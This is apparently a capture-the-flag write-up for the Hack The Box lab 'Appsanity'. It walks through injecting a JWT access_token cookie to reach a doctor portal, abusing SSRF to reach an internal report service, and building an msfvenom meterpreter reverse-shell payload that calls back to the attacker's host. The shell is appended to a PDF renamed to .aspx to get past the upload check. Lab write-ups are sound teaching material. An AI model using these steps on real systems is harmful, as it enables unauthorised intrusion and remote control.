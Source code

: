 


I couldn't find the ref.number anywhere.

so I went to `portal.meddigi.htb/Profile` and intercepted the request and the response.
and added *Set-Cookie* header to set the *access_token* in the response

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
HTTP/2 302 Found
Location: /Profile
Server: Microsoft-IIS/10.0
Strict-Transport-Security: max-age=2592000
Set-Cookie: access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjEwIiwiZW1haWwiOiJkb2N0b3JAd2hvLmNvbSIsIm5iZiI6MTY5ODg0OTIzMywiZXhwIjoxNjk4ODUyODMzLCJpYXQiOjE2OTg4NDkyMzMsImlzcyI6Ik1lZERpZ2kiLCJhdWQiOiJNZWREaWdpVXNlciJ9.8s17W4ZWYU6H_elGsVj-xtI_RDmCnqEcJk4RVF_zPP8; expires=Wed, 01 Nov 2023 16:33:53 GMT; path=/; secure; samesite=strict; httponly
Date: Wed, 01 Nov 2023 14:33:53 GMT
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




which gets us into the doctor's portal profile






Found nothing in Scheduler

Issue Prescription page could be vulnerable to SSRF, I intercepted the request and sent it to repeater





We find the address `http://127.0.0.1:8080/` which allows us to see the reports



I found an aspx reverse shell https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
or we could use msfvenom to create a shell


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Appsanity/files]
└─$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=9998 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 684 bytes
Final size of aspx file: 4565 bytes
Saved as: shell.aspx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


I went over to Upload Report page and uploaded a blank pdf and intercepted the request
Let's change the extension of our PDF from **.pdf** to **.aspx** and add our shell after `%%EOF`



Change host to your IP and forward the request
and now we can listen to the port using `nc`
